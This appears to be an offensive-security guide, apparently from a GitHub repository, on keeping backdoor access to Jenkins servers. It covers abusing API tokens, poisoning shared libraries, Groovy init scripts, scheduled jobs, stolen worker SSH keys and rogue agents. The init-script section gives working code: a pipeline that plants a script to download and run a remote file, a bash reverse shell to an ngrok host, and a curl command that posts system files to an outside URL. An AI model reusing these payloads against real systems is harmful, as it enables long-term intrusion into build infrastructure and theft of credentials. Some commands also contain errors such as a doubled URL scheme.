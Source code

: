 # Backdooring

- Backdooring helps attacker to gain access over systems over long period of time ( sometimes bypassing the security checks )
- A higher level privileges might be required to do the changes in configuration



## User issued Jenkins API Tokens

- It is possible for users to generate their own API tokens.
- Can be used to bypass other authentication process ( Form based Authentication / 2FA authentication )
- Usually undected ( unless the usage count is not tracked )
- As an attacker we need to make sure, we need to give right priviliges to these compromised users in case Matrix Authorization Strategy is enabled.

```
curl http://username:token@127.0.0.1:8080
```
<img src="api-token-access.png">

## Using Shared Libraries

- Jenkins shared library is popular where large number of jenkins jobs or pipelines uses a repeated code in pipeline script. 
- The developers creates certain modular functions containing the repetitive code and then reuses across various projects/pipelines/jobs.
- Personal Research : https://oxhat.blogspot.com/2022/07/attacking-backdooring-and-exfiltrating.html
- There are 2 ways we can backdoor the shared pipelines
  1. Add a backdoor inside a shared library codebase ( Jenkins Admin Access Not Required )
``` Groovy
@Library("shared-libraries") _
pipeline{
    agent any
    stages {
        stage("example"){
            steps{
                sh "echo Just a job2"
                helloWorld(name:"User2",dayOfWeek:"Tuesday")
            }
        }
    }
}
```
  - <img src="shared-library-code.png">
  3. Change the shared library location to an attaker controlled shared library ( Jenkins Admin Access Required )
  - <img src="shared-library-conf.png">

## Groovy init scripts

- We can try this technique both from pipeline / after controller's compromise.
- We need to add ```init.groovy``` file with our payload at home directory ( the directory that contains other config files pf Jenkins, sometimes referred as $JENKINS_HOME )
- To trigger this, we would need a restart.
- We have couple of options what we can do with our backdoor scripts
  - Get a reverse shell - We can run this via pipeline
``` Groovy
pipeline{
    agent any
    stages{
        stage('Adding a groovy init file'){
            steps{
                sh '''
                    echo "'wget -O /tmp/revshell.sh  https://gist.githubusercontent.com/dibsy/00d346575659f977b353f95a7064e966/raw/dc89f902db2c81fe96c2f5a102e16c25b8308983/temp-cmd.txt'.execute()" > /var/lib/jenkins/init.groovy
                    echo "sleep(5000)" >> /var/lib/jenkins/init.groovy
                    echo "'sh /tmp/revshell.sh'.execute()" >> /var/lib/jenkins/init.groovy
                    '''
            }
        }
    }
}
```
  
  
  
  
init.groovy
```
"wget -o /tmp/revshell.sh  http://https://gist.githubusercontent.com/dibsy/temp-cmd.txt".execute()
"sh /tmp/revshell.sh".execute()
```
revshell.sh
```
bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/13520 0>&1
```

<img src="backdoor-rev.png">

  - Exfiltrate data - You can exfiltrate system files and automate a process to exfiltrate all jenkins configuration files, secrets,
exfil.groovy

```
"curl -X POST https://6aee-91-166-172-59.ngrok-free.app -d @/etc/hosts".execute()
```

<img src="backdoor-exfil.png">

  - Use other persistent techniques
    - Add a cronjob
    - Add another user

## Triggering backdoor jobs

- Add a build-step

- Add a post-build Actions to start our backdoor

- Build a job that runs periodically


## Worker-Node SSH Keys

- We can dump the SSH keys from the Jenkins Controller
- Once we have the SSH keys we can montitor the logon events and exfiltrate the build data or snoop on it for debug logs or credentials.

## Addling Malicious Worker-Node 

- In this process we update / add a new configuration with an attacker controller worker node.
- We can update the Worker-Node configuration to point to that node.
- This is possible either adding a new agent or updating the ssh keys used for configuration.

<img src="configure-agent.png">

